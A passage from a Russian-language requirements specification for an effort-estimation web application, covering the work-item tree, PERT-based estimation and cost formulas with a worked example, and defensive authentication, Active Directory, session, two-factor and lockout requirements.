**BR-TREE-04.** Ветка дисциплины сама может быть листом (оценка «крупно»).

**BR-TREE-05.** Максимальная глубина ниже ветки дисциплины — 8 уровней. **Почему:** глубже — признак ошибки декомпозиции, а на экране шириной 1366 px отступы перестают помещаться.

**BR-TREE-06.** Максимум узлов в проекте — 5 000. При 4 500 модератор видит предупреждение. **Почему:** ограничение проверено нагрузочным тестом (NFR-PERF-02); реальные проекты укладываются в 300–1 500 узлов.

**BR-TREE-07.** Название узла: 1–200 символов, обрезаются пробелы по краям, переводы строк запрещены. Дубли названий допустимы.

**BR-TREE-08.** Если тип узла не указан, используется тип «Работа».

### 5.2. Словарь типов, профили и уровень детализации

Значения по умолчанию, которые заводятся при установке (администратор их меняет):

| Тип | Пример | Норма на единицу (O–R–P, ч), пример | Иконка |
|---|---|---|---|
| Модуль | Личный кабинет | нет, группирует | ▣ |
| Функция | Авторизация | редко | ƒ |
| Экран | Карточка клиента | простой 2–4–6 · средний 5–7–10 · сложный 12–16–24 | ▭ |
| Интеграция | Обмен с 1С | простая 16–24–40 · сложная 40–60–100 | ⇄ |
| Отчёт | Отчёт по продажам | 8–12–20 | ▤ |
| Сущность | Справочник | CRUD 6–8–12 | ◇ |
| Сервис | Фоновая задача | редко | ⚙ |
| Тест-набор | Регресс ЛК | на кейс 0,5–1–2 | ✓ |
| Документ | ПМИ | на раздел 2–4–6 | ✎ |
| Работа | Созвоны, CI | нет | • |

Профили дисциплин по умолчанию:

| Дисциплина | Профиль по умолчанию | Альтернативы |
|---|---|---|
| Бэкенд | Модуль → Функция | Сервис → Функция; плоский список функций |
| Фронтенд | Экран | Модуль → Экран; Функция |
| Аналитика | Документ | Функция |
| QA | Тест-набор | Функция; Экран |
| Архитектура | Работа | Сервис; Интеграция |
| DevOps | Работа | Сервис |

**FR-TREE-01.** При добавлении ребёнка система предлагает тип по профилю: если родитель — ветка дисциплины, первый тип цепочки; если родитель имеет тип N-го элемента цепочки, тип N+1-го; иначе — тип родителя. Пользователь может выбрать любой тип из словаря.

**FR-TREE-02.** Если у типа есть нормы, при создании листа этого типа поля O/R/P **не заполняются автоматически**, а под полями показывается подсказка «Норма: средний экран 5–7–10 · подставить». **Почему:** автоподстановка приводит к тому, что эксперты не думают о цифре и оставляют норму, даже когда экран нетиповой. Подсказка сохраняет пользу нормы без этого эффекта.

**FR-TREE-03.** Эксперт может создать локальный тип прямо в проекте (название + иконка из набора). Тип работает сразу и только в этом проекте; у администратора он появляется в списке «Предложенные типы» с кнопками «Добавить в словарь», «Объединить с существующим», «Отклонить». При объединении узлы проекта перепривязываются к выбранному типу.

Уровень детализации:

| Уровень | Ожидание | Подсказки (пороги — настройки админки) |
|---|---|---|
| Крупно | Один лист на ветку дисциплины | нет |
| Средне | 5–15 единиц в ветке | Лист > 80 ч помечается «крупный» |
| Детально | 2–3 уровня, листы до ~40 ч | Лист > 40 ч помечается «крупный» |

**BR-TREE-09.** Уровень детализации — подсказка, а не блок. «Крупный» лист отмечается значком ◆ в строке и попадает в список «Крупные листья» статистики; отметить ветку «готово» он не мешает.

---

## 6. Расчётная модель

Этот раздел — единственный источник истины для формул. Сервер и клиент считают по одним и тем же формулам; клиент — для мгновенного отображения, сервер — для экспорта, снимков и проверки. Расхождение клиента и сервера в тестах — дефект.

### 6.1. Формулы листа

Для листа с оценкой O, R, P (часы на одну штуку) и множителем N:

```text
E_ед   = (O + 4·R + P) / 6          ожидаемое значение одной штуки (PERT)
σ_ед   = (P − O) / 6                стандартное отклонение одной штуки
E_лист = N · E_ед
σ_лист = N · σ_ед                   ← умножается на N, а не на √N
```

> **Почему σ умножается на N, а не на √N.** Двенадцать одинаковых экранов делает одна команда по одной норме. Если норма ошибочна, она ошибочна для всех двенадцати сразу (полная корреляция). Формула √N предполагала бы, что ошибки по экранам независимы и взаимно гасятся, и дала бы ложную уверенность. Пример: 12 экранов по 4–6–8: σ = 12 · 0,667 = 8 ч, а не √12 · 0,667 = 2,3 ч.

### 6.2. Свёртка вверх по дереву

```text
E_узла = Σ E_детей
σ_узла = √( Σ σ_детей² )            листья разных строк считаются независимыми
O_узла = Σ N·O, R_узла = Σ N·R, P_узла = Σ N·P   (только для подсказки, не для P80)
P80    = E + 0,8416 · σ             z-квантиль нормального распределения для 80%
```

> **Почему P80 считается через σ, а не как сумма P.** Сумма пессимистичных оценок всех листьев — ситуация, когда всё пошло плохо одновременно; её вероятность ничтожна, и цифра получается завышенной в разы. Сумма σ в квадратах — стандартный способ сложить независимые неопределённости. Значение квантиля (0,8416) — константа в коде, а уровень (80%) — настройка администратора на будущее (в MVP фиксирован).

### 6.3. Управление проектом

```text
E_работ  = Σ E всех включённых фаз, кроме УП
σ_работ  = √( Σ σ² всех листьев, кроме УП )
E_УП     = k · E_работ               k — процент УП проекта (по умолчанию 18%)
σ_УП     = k · σ_работ
E_итог   = (1 + k) · E_работ
σ_итог   = (1 + k) · σ_работ         ← УП полностью коррелирует с работами
P80_итог = E_итог + 0,8416 · σ_итог
```

**BR-CALC-01.** Ветки со статусом «не нужно» в расчётах не участвуют (они пустые по определению).

**BR-CALC-02.** Листья с пустой или неверной оценкой (O > R или R > P) **не входят** в суммы и подсвечиваются. В верхней полосе показывается предупреждение «3 листа без оценки не учтены». **Почему:** включение недооценённых листьев с нулём выглядит как «готовая» цифра и вводит в заблуждение; явное «не учтено» честнее.

**BR-CALC-03.** Хранение — `NUMERIC(10,2)` для O/R/P (шаг ввода 0,5 ч, минимум 0, максимум 99 999,5). Все промежуточные расчёты — без округления, в десятичной арифметике (Python `Decimal`, на клиенте — числа с двойной точностью с округлением только при выводе). Отображение: часы — 1 знак после запятой; деньги — 0 знаков; проценты — целые.

**BR-CALC-04.** O = R = P допустимо (σ = 0). O = 0 допустимо. Все три нуля допустимы и означают «работа есть, но трудозатрат не требует» (например, переиспользуем готовый модуль); такой лист выделяется серым.

### 6.4. Деньги

Деньги видят только модератор и пресейл проекта (BR-MONEY-01).

```text
Стоимость_дисциплины (₽) = E_дисциплины · ставка_дисциплины (₽/ч)
Стоимость_УП (₽)         = E_УП · ставка «Управление проектом» (₽/ч)
Итог (₽)                 = Σ Стоимость_дисциплин + Стоимость_УП
Итог (валюта КП)         = Итог (₽) / курс                 курс = ₽ за 1 единицу валюты
P80 в деньгах            = Σ по дисциплинам (P80_дисц · ставка)  ← НЕ используется, см. ниже
P80_итог (₽)             = Итог (₽) · P80_итог / E_итог
```

> **Почему P80 в деньгах считается пропорцией.** У дисциплин разные ставки, а P80 не аддитивен: сумма P80 дисциплин больше P80 проекта. Пропорция «P80 / E» применяется к итоговой стоимости и даёт согласованную пару «E ₽ / P80 ₽». Это упрощение, о нём написано в подсказке у цифры.

**BR-MONEY-02.** Ставки задаются в рублях за час на проект по каждой дисциплине, которая есть в проекте, плюс ставка УП. Если не задана ставка дисциплины, у которой в проекте есть часы (E > 0), или ставка УП при E_УП > 0, у модератора и пресейла вместо суммы показывается «не заданы ставки: QA, УП». Пустая ставка дисциплины без часов на итог не влияет.

**BR-MONEY-03.** Валюта КП: RUB, USD, EUR, CNY, KZT, BYN, AED (список — справочник администратора). Курс вводится вручную модератором (₽ за 1 единицу, 4 знака после запятой) и фиксируется в проекте. Для RUB курс = 1 и поле скрыто. Автозагрузки курса ЦБ в MVP нет. **Почему:** цифра в КП должна воспроизводиться через месяц; плавающий курс это ломает.

### 6.5. Полный пример расчёта

Дерево из раздела 5.1, k = 18%. Ставки: Аналитика 2 500 ₽, Архитектура 3 500 ₽, Бэкенд 3 000 ₽, Фронтенд 2 800 ₽, QA 2 200 ₽, УП 3 200 ₽. Валюта КП USD, курс 92,5.

| Лист | O–R–P | ×N | E | σ |
|---|---|---|---|---|
| Аналитика целиком | 60–80–120 | 1 | 83,33 | 10,00 |
| Проектирование архитектуры | 16–24–40 | 1 | 25,33 | 4,00 |
| Авторизация | 8–12–20 | 1 | 12,67 | 2,00 |
| Профиль дилера | 12–16–24 | 1 | 16,67 | 2,00 |
| Обмен с 1С | 40–60–100 | 1 | 63,33 | 10,00 |
| Создать типовой экран | 4–6–8 | 12 | 72,00 | 8,00 |
| Дашборд | 16–24–40 | 1 | 25,33 | 4,00 |
| Регресс-кейс ЛК | 0,5–1–2 | 30 | 32,50 | 7,50 |
| Тесты обмена с 1С | 8–12–24 | 1 | 13,33 | 2,67 |

Свёртка по дисциплинам:

| Дисциплина | E, ч | σ, ч | P80, ч | Ставка | Стоимость, ₽ |
|---|---|---|---|---|---|
| Аналитика | 83,3 | 10,0 | 91,8 | 2 500 | 208 333 |
| Архитектура | 25,3 | 4,0 | 28,7 | 3 500 | 88 667 |
| Бэкенд | 92,7 | 10,4 | 101,4 | 3 000 | 278 000 |
| Фронтенд | 97,3 | 8,9 | 104,9 | 2 800 | 272 533 |
| QA | 45,8 | 8,0 | 52,5 | 2 200 | 100 833 |
| **Работы** | **344,5** | **19,2** | **360,6** | | **948 367** |
| УП 18% | 62,0 | 3,5 | | 3 200 | 198 432 |
| **Итог** | **406,5** | **22,6** | **425,5** | | **1 146 799** |

Итог в валюте КП: 1 146 799 / 92,5 = **12 398 USD**; P80 в деньгах: 1 146 799 · 425,54 / 406,51 = **1 200 484 ₽** (12 978 USD).

Проверка σ работ: √(10² + 4² + 2² + 2² + 10² + 8² + 4² + 7,5² + 2,67²) = √367,4 = 19,17.

Этот пример ДОЛЖЕН быть автотестом расчётного модуля (сервер и клиент), см. TC-CALC-01.

### 6.6. Доли дисциплин и контрольные соотношения

Доли показываются только в статистике. Контрольное соотношение задаёт администратор как «дисциплина A к сумме дисциплин B, допустимый диапазон». Пример по умолчанию: «QA к (Бэкенд + Фронтенд) — 25–35%». В примере: 45,8 / (92,7 + 97,3) = 24,1% → предупреждение «ниже нормы». Соотношения предупреждают, но ничего не блокируют.

---

## 7. Функциональные требования: аутентификация и админка

### 7.1. Первичная установка и суперадминистратор



**FR-SA-01.** Первый суперадминистратор создаётся только консольной командой `estimator create-superadmin --login <login> --email <email>` внутри контейнера приложения. Команда не принимает пароль аргументом (чтобы он не попал в историю shell), а выводит одноразовую ссылку активации со сроком действия 60 минут. **Почему:** нет «пароля по умолчанию» (admin/admin) — одной из самых частых уязвимостей корпоративных приложений.

**FR-SA-02.** Пока не завершён мастер первичной настройки, приложение для всех остальных показывает страницу «Приложение настраивается» и не принимает вход никого, кроме суперадминистратора.

**FR-SA-03.** Суперадминистратор всегда аутентифицируется локально (логин + пароль приложения + TOTP), **даже если выбран режим AD**. **Почему:** если AD недоступен или настройки AD ошибочны, должен остаться способ войти и исправить настройки (break-glass). Если бы суперадминистратор входил через AD, ошибка в настройке LDAP заблокировала бы приложение для всех.

**FR-SA-04.** Для суперадминистратора второй фактор (TOTP) обязателен и не отключается. Для администраторов — обязателен по умолчанию, суперадминистратор может отключить требование для администраторов только в режиме AD (там второй фактор может обеспечиваться иначе) — с записью в аудит и красным предупреждением в интерфейсе.

**FR-SA-05.** Суперадминистратор может создать другого суперадминистратора. Действие требует повторного ввода пароля и кода TOTP (step-up). Максимум 3 суперадминистратора. [Допущение]

**FR-SA-06.** Раздел «Безопасность» админки суперадминистратора (и вообще весь путь `/admin/system/*`) МОЖЕТ быть ограничен списком разрешённых сетей (CIDR). Если список задан, запросы из других сетей получают 404 (а не 403, чтобы не раскрывать существование раздела).

**FR-SA-07.** Суперадминистратор видит раздел «Состояние системы»: версия приложения, версия схемы БД, доступность БД, Redis, SMTP, LDAP (зелёный/красный), очередь фоновых задач, дата последней резервной копии (из файла-метки, который пишет скрипт бэкапа).

### 7.2. Способ аутентификации

Суперадминистратор выбирает **один** режим для всех пользователей, кроме суперадминистраторов:

| Параметр | Режим «Приложение» | Режим «Active Directory» |
|---|---|---|
| Где хранится пароль | В БД приложения (хэш Argon2id) | В AD, приложение пароль не хранит |
| Кто создаёт пользователей | Администратор или суперадминистратор | Создаются автоматически при первом входе (если пользователь в разрешённой группе AD) |
| Смена и сброс пароля | В приложении (ссылка на почту или временный пароль от администратора) | В AD средствами компании, приложение не меняет пароль |
| Блокировка | В приложении | Отключение в AD блокирует вход; также можно заблокировать в приложении |
| Роли | Выдаёт администратор | Выдаёт администратор вручную **или** по группам AD (настраивается) |
| ФИО, email | Вводит администратор | Берутся из AD при каждом входе |
| 2FA (TOTP) | Настраивается политикой | Настраивается политикой |



#### Требования к режиму AD

**FR-AUTH-AD-01.** Параметры подключения: список контроллеров (host:port, перебираются по порядку при недоступности), протокол **LDAPS (636) или StartTLS (389)**, сертификат корневого УЦ компании (загрузка PEM), Base DN поиска пользователей, фильтр поиска (по умолчанию `(&(objectClass=user)(sAMAccountName={login}))`), атрибут логина (`sAMAccountName` или `userPrincipalName`), атрибуты ФИО и email, DN и пароль сервисной учётной записи, таймаут (по умолчанию 5 с).

**FR-AUTH-AD-02.** Нешифрованный LDAP (389 без StartTLS) **НЕ ДОЛЖЕН** быть доступен для выбора. Проверка сертификата сервера **НЕ ДОЛЖНА** отключаться. **Почему:** при простом LDAP пароли пользователей идут по сети открытым текстом.

**FR-AUTH-AD-03.** Кнопка «Проверить подключение» выполняет bind сервисной учёткой и поиск; кнопка «Проверить вход» принимает тестовые логин и пароль и показывает найденные атрибуты и группы (пароль нигде не сохраняется и не логируется). Сохранить настройки AD нельзя, пока обе проверки не прошли успешно хотя бы один раз после последнего изменения параметров.

**FR-AUTH-AD-04.** Пароль сервисной учётной записи хранится зашифрованным (см. SEC-CRYPT-03), в интерфейсе после сохранения не показывается (поле «••••••, изменить»).

**FR-AUTH-AD-05.** Доступ к приложению: настраивается «Группа доступа» AD (одна или несколько). Пользователь, не состоящий ни в одной (с учётом вложенных групп через `LDAP_MATCHING_RULE_IN_CHAIN 1.2.840.113556.1.4.1941`), получает отказ «Нет доступа к приложению. Обратитесь к администратору» — без уточнения причины в интерфейсе, с причиной в аудите.

**FR-AUTH-AD-06.** JIT-провижининг: при первом успешном входе пользователь создаётся в приложении с системной ролью «Пользователь». При каждом входе обновляются ФИО, email, статус учётки.

**FR-AUTH-AD-07.** Сопоставление групп AD ролям (опционально): таблица «группа AD → системная роль» для ролей «Администратор», «Модератор», «Пресейл». Если включено, роли из групп пересчитываются при каждом входе и ежедневной синхронизации; ручная выдача этих ролей в интерфейсе для пользователей AD отключается (иначе источник истины неясен). Роль «Суперадминистратор» через AD **не выдаётся** никогда.

**FR-AUTH-AD-08.** Ежедневная фоновая синхронизация (в 03:00 по часовому поясу приложения): для всех пользователей AD-режима проверяется существование учётки, флаг `ACCOUNTDISABLE` и членство в группе доступа. Отключённые или удалённые из группы пользователи блокируются в приложении, их сессии завершаются. Результат синхронизации — в аудит и в «Состояние системы».

**FR-AUTH-AD-09.** Если AD недоступен, пользователи AD войти не могут (сообщение «Сервис аутентификации временно недоступен»), уже открытые сессии продолжают работать до истечения. Суперадминистратор входит локально (FR-SA-03).

#### Требования к режиму «Приложение»

**FR-AUTH-LOC-01.** Пользователя создаёт администратор: логин (латиница, цифры, `.`, `-`, `_`, 3–64 символа, уникален без учёта регистра), ФИО, email (уникален), системные роли. Пароль администратор **не задаёт**: пользователю уходит письмо с одноразовой ссылкой установки пароля (срок 72 часа). Если SMTP не настроен — администратор получает одноразовую ссылку на экране и передаёт её сам.

**FR-AUTH-LOC-02.** Политика паролей (значения по умолчанию, меняет суперадминистратор): минимум 12 символов, максимум 128; проверка по списку из 100 000 распространённых паролей; запрет совпадения с логином, ФИО, email; история — нельзя повторять 5 последних; срок действия — не ограничен (по умолчанию) или N дней. Требования к составу (заглавные, цифры, спецсимволы) — опционально включаются. **Почему по умолчанию длина важнее состава:** так рекомендует NIST SP 800-63B; правила состава приводят к паролям вида `Password1!`. Опция состава оставлена, потому что внутренние стандарты ИБ многих компаний её требуют.

**FR-AUTH-LOC-03.** «Забыли пароль»: пользователь вводит логин или email, ответ всегда одинаковый («Если такая учётная запись есть, мы отправили письмо») — чтобы нельзя было проверить существование логина. Ссылка действует 60 минут, одноразовая, после использования все сессии пользователя завершаются.

**FR-AUTH-LOC-04.** Смена пароля в профиле требует текущий пароль. После смены все остальные сессии пользователя завершаются.

#### Переключение режима

**FR-AUTH-SW-01.** Переключение режима выполняет только суперадминистратор, с повторным вводом пароля и TOTP, после экрана-предупреждения с последствиями:

| Переход | Что происходит с пользователями |
|---|---|
| Приложение → AD | Существующие пользователи сопоставляются с AD по логину (без учёта регистра), затем по email. Сопоставленные становятся AD-пользователями, их локальные пароли удаляются. Несопоставленные блокируются. Перед применением суперадминистратор видит отчёт «сопоставлено / не найдено» (dry run) |
| AD → Приложение | Все пользователи становятся локальными без пароля; каждому отправляется ссылка установки пароля (72 часа). До установки пароля вход невозможен |

Во всех случаях все сессии, кроме сессии суперадминистратора, завершаются. Данные проектов, авторство и история не меняются: они ссылаются на внутренний `user_id`, а не на логин.

### 7.3. Сессии и второй фактор

**FR-SESS-01.** Сессия — серверная (запись в Redis с копией метаданных в БД), идентификатор — 256 бит случайных данных в cookie `__Host-session` с флагами `HttpOnly; Secure; SameSite=Strict; Path=/`. JWT в localStorage не используется. **Почему:** серверную сессию можно мгновенно отозвать (блокировка пользователя, смена роли), а токен в localStorage крадётся любым XSS.

**FR-SESS-02.** Таймауты (по умолчанию, меняет суперадминистратор): бездействие — 60 минут для пользователей, 15 минут для администраторов и суперадминистраторов; абсолютный срок — 12 часов. За 2 минуты до истечения по бездействию показывается диалог «Продлить сессию?».

**FR-SESS-03.** Идентификатор сессии меняется при входе и при прохождении TOTP (защита от фиксации сессии).

**FR-SESS-04.** В профиле пользователь видит свои активные сессии (браузер, IP, время входа, последняя активность) и может завершить любую или все, кроме текущей.

**FR-SESS-05.** Блокировка пользователя, изменение его системных ролей, смена пароля, исключение из проекта — немедленно действуют на открытые сессии (проверка прав выполняется на каждом запросе по актуальным данным; WebSocket получает событие и переподключается с новой проверкой прав).

**FR-2FA-01.** TOTP по RFC 6238 (30 с, 6 цифр, SHA-1 для совместимости с Google Authenticator, Яндекс Ключ, FreeOTP, Microsoft Authenticator). При подключении показывается QR-код и секрет текстом, пользователь подтверждает первым кодом. Выдаются 10 одноразовых резервных кодов (хранятся как хэши).

**FR-2FA-02.** Политика 2FA для обычных пользователей: «выключено» / «по желанию» / «обязательно». По умолчанию — «по желанию».

**FR-2FA-03.** Сброс 2FA пользователю делает администратор (для пользователей) или суперадминистратор (для администраторов), с записью в аудит. Свой TOTP суперадминистратор может сбросить только с помощью резервного кода или через другого суперадминистратора, или консольной командой.

### 7.4. Блокировки при подборе пароля

**FR-LOCK-01.** После 5 неудачных попыток входа подряд для одного логина учётная запись блокируется на 15 минут (значения меняет суперадминистратор). В режиме AD приложение блокирует вход у себя, не дожидаясь блокировки в AD. Сообщение пользователю одинаковое для неверного логина и неверного пароля: «Неверный логин или пароль».

**FR-LOCK-02.** Ограничение частоты с одного IP: не более 20 попыток входа в минуту, затем ответ 429 на 5 минут.

**FR-LOCK-03.** Неудачный TOTP считается неудачной попыткой входа.

### 7.5. Админка администратора

Разделы (каждый — таблица со списком, поиском и формой справа):

| Раздел | Поля | Особые правила |
|---|---|---|
| Пользователи | ФИО, логин, email, источник (локальный/AD), системные роли, статус, последний вход, 2FA | Пользователя нельзя удалить, только заблокировать. Блокировка не убирает его из проектов, но он перестаёт получать уведомления. Анонимизация — см. SEC-PD-03 |
| Фазы | Название, порядок, признак «сквозная (процент)», активна | Ровно одна фаза может быть сквозной. Фазу, используемую в проектах, нельзя удалить, можно сделать неактивной (не предлагается в новых проектах) |
| Дисциплины | Название, короткое название (для заголовков, ≤ 12 символов), цвет, профиль по умолчанию, активна | Ставок здесь нет (BR-MONEY-04) |
| Типы узлов | Название, иконка, нормы (список «вариант — O/R/P»), активен | «Работа» нельзя удалить или отключить: это тип по умолчанию |
| Предложенные типы | Локальные типы из проектов, проект, автор | Добавить / объединить / отклонить |
| Профили дисциплин | Дисциплина, название профиля, цепочка типов | У каждой дисциплины один профиль по умолчанию |
| Пороги и проценты | Порог «крупного листа» для Средне/Детально, ожидаемое число единиц для Средне, % УП по умолчанию, срок автоархивации | Значения влияют только на новые проекты (кроме порогов подсказок — сразу на все) |
| Контрольные соотношения | Дисциплина A, набор дисциплин B, мин %, макс % | |
| Метки комментариев | Название, короткое имя, цвет, куда идёт в статистике (Допущения / Риски / Технологии / Ограничения) | |
| Валюты | Код ISO 4217, символ, активна | RUB неудаляема |
| Реестр проектов | Название, заказчик, модераторы, статус, даты | Без доступа к содержимому. Действие «Передать / добавить модератора» |

**BR-MONEY-04.** Администратор не видит ставки, стоимость и валюты проектов (кроме справочника валют). Если у пользователя-администратора есть роль модератора, деньги он видит только в своих проектах.

**BR-ADM-01.** Любое изменение справочника пишется в журнал аудита со значением «было → стало».

**BR-ADM-02.** Изменение справочника не меняет задним числом снимки: снимок хранит денормализованные названия фаз, дисциплин и типов на момент снимка.

---

## 8. Функциональные требования: проекты и оценка

### 8.1. Карта экранов



### 8.2. «Мои оценки» (главная)

**FR-HOME-01.** Список проектов, где пользователь участвует в любой проектной роли. Колонки: название, заказчик, статус проекта, моя роль и мои дисциплины, мой прогресс (сколько моих веток «готово» из всех моих), дедлайн (красный, если осталось ≤ 2 рабочих дня и мои ветки не готовы), счётчик «вопросы мне», дата последнего изменения.

**FR-HOME-02.** Сортировка по умолчанию: сначала проекты с вопросами мне, затем по дедлайну по возрастанию. Фильтры: статус (по умолчанию все, кроме «Архив»), роль, поиск по названию и заказчику.

**FR-HOME-03.** Кнопка «Создать проект» видна только пользователям с системной ролью «Модератор».

**FR-HOME-04.** Модератор и пресейл видят дополнительную колонку «Итог» (E, ч и сумма в валюте КП). Эксперт — только «Итог, ч».

### 8.3. Создание и настройки проекта

**FR-PRJ-01.** Поля проекта:

| Поле | Обязательно | Ограничения | Кто видит |
|---|---|---|---|
| Название | Да | 3–200 символов. Рекомендация в подсказке: «Клиент. Проект. Что надо сделать» | Все участники |
| Заказчик | Да | 1–200 символов (свободный текст в MVP) | Все участники |
| Описание и ссылки на материалы | Нет | До 10 000 символов, обычный текст, ссылки кликабельны | Все участники |
| Фазы | Да, ≥ 1 | Из активных фаз справочника; по умолчанию включены все | Все участники |
| Уровень детализации | Да | Крупно / Средне / Детально, по умолчанию Средне | Все участники |
| Процент УП | Да | 0–50%, шаг 0,5, по умолчанию из админки | Все участники |
| Обоснование процента УП | Нет | До 1 000 символов, уходит в допущения | Все участники |
| Дедлайн оценки | Нет | Дата не раньше сегодняшней | Все участники |
| Модераторы | Да, ≥ 1 | Пользователи с системной ролью «Модератор» | Все участники |
| Пресейл | Нет | Пользователи с системной ролью «Пресейл», 0–3 | Все участники |
| Эксперты по дисциплинам | Нет | Любые активные пользователи; признак «ревьюер» | Все участники |
| Ставки по дисциплинам и УП | Нет | 0–1 000 000 ₽/ч, целые | Модератор, пресейл |
| Валюта КП, курс | Да (RUB по умолчанию) | Курс > 0, 4 знака | Модератор, пресейл |
| Результат пресейла | Нет | Не известен / выигран / проигран / отменён | Все участники |

**FR-PRJ-02.** «Копировать проект» (модератор): создаёт новый проект в статусе «Подготовка» с настройками, командой и деревом (без обсуждений, истории, снимков, отметок «Проверено»; статусы веток — «черновик»). Ставки копируются только если копирует модератор исходного проекта.

**FR-PRJ-03.** «Копировать ветку из другого проекта» (эксперт и модератор): в своей ветке эксперт выбирает проект, где он участвовал, и ветку той же дисциплины; поддерево копируется как дочерние узлы выбранного узла. Копируются названия, типы, O/R/P, ×N, комментарии. **Почему ограничение «где участвовал»:** иначе эксперт увидит оценки чужих проектов, к которым у него нет доступа.

**FR-PRJ-04.** Назначение эксперта на дисциплину, которой ещё нет в проекте, создаёт ветки этой дисциплины во всех включённых фазах со статусом «не начато». Снятие последнего эксперта с дисциплины не удаляет ветки: они остаются и показываются с пометкой «нет эксперта».

### 8.4. Рабочий экран: дерево

Один экран для всех ролей. Различаются только права на редактирование и деньги в верхней полосе (макет — раздел 11.4).

**FR-TREE-10.** Столбцы:

| Столбец | Узел | Лист | Ширина |
|---|---|---|---|
| Узел | Иконка типа, название, свернуть/развернуть, значок обсуждения со счётчиком | Иконка типа, название, значок обсуждения, ◆ если крупный | Гибкая, мин. 260 px |
| ×N | — | Множитель; ×1 бледный, иначе выделенная плашка | 52 px |
| Комментарий | Общий для узла (например, стек дисциплины) | Комментарий листа с меткой; виден всегда, перенос на 2 строку, дальше «…» с раскрытием по клику | Остаток, мин. 240 px |
| O / R / P | — | Поля ввода, часы на одну штуку | по 56 px |
| Σ E | Сумма по листьям | N × E | 72 px |
| ✓ | Отметка «Проверено» (вся ветка проверена) | Отметка «Проверено» | 32 px |

**FR-TREE-11.** Верхняя полоса (прилипает): название проекта, статус, итог E (ч) и P80 (ч), у модератора и пресейла — итог в валюте КП и P80 в валюте; счётчик «Открыто» (вопросы мне / всего открытых), счётчик рисков, кнопки «Статистика», «Снимок» (модератор), «Экспорт», «Настройки».

**FR-TREE-12.** Над деревом: поиск по названию и комментарию (от 2 символов, подсветка совпадений), чипы-фильтры «Мои ветки», «Пустые», «Крупные», «Без „Проверено“», «С открытыми вопросами», кнопки «До фаз», «До дисциплин», «Всё раскрыть». Фильтр оставляет найденные строки вместе с родителями; итоги в верхней полосе всегда по всему проекту.

**FR-TREE-13.** Строки фазы и дисциплины прилипают сверху, пока прокручиваются их листья. Шапка столбцов закреплена. Отступ уровня 16 px, после 5-го уровня отступ не растёт (глубина показывается цифрой у иконки).

**FR-TREE-14.** Состояние раскрытия, фильтры и ширина столбцов запоминаются для пользователя и проекта (на сервере, чтобы работало с другого компьютера).

**FR-TREE-15.** Виртуализация строк: в DOM одновременно не более ~150 строк независимо от размера дерева.

#### Редактирование

**FR-TREE-20.** Ввод в ячейку: клик → поле ввода → Enter или уход фокуса сохраняет; Esc отменяет. Tab переходит O → R → P → Комментарий → O следующего листа. Сохранение происходит на лету, кнопки «Сохранить» нет. Пока запрос не подтверждён сервером, у ячейки индикатор «сохраняется»; при ошибке — красная рамка и текст ошибки, введённое значение не теряется.

**FR-TREE-21.** Ввод O/R/P: разделитель — запятая или точка; шаг 0,5 (значение округляется до 0,5 с подсказкой «округлено до 12,5»); допустим быстрый ввод вилки в поле O строкой `8-12-20` или `8/12/20` — значения распределяются по трём полям.

